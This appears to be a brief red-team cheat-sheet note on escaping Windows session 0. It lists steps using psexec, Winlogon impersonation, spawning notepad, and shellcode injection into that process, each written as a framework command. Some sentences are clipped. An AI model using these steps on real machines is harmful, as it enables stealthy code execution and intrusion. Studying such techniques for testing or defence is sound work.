


## Integrity and Session IDs
**Concept**: Try to move from a session level "0" process to a sessions level "3" ("1" in windows)

1. Use **psexec** to get access to a session "0" process running as  SYSTEM user
`psexec localhost servicebinary`

2. Impersonate Winlogon to get a session "1" session running as 
`ImpersonateProcess <process_number>`

3.Generate notepad from the session 1 session
`sharpshell var target = System.Diagnostics.Process.Start("notepad"); return target.Id.ToString();`
4. Inject shellcode into notepad
`Inject /processid:"<notepad_process_id>"`

